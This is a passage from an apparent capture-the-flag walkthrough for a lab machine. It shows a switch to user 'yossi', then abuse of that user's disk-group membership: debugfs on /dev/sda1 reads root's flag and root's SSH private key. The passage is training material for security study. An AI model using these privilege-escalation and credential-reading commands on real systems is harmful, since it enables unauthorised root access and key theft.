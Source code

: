 Let’s try switching to that user:

```bash
su yossi
```

We are in.

![image.png]({{ site.baseurl }}/assets/falafel/image%2018.png)

Let’s check this user’s privilege:

```bash
id

uid=1000(yossi) gid=1000(yossi) groups=1000(yossi),4(adm),6(disk),24(cdrom),30(dip),46(plugdev),117(lpadmin),118(sambashare)

```

We are part of the disk group, which has full access to partitions mounted in /dev. We can use debugfs to read the disk:

```bash
debugfs /dev/sda1

cat /root/root.txt
```

We can also read root’s ssh private key:

```bash
cat /root/.ssh/id_rsa
```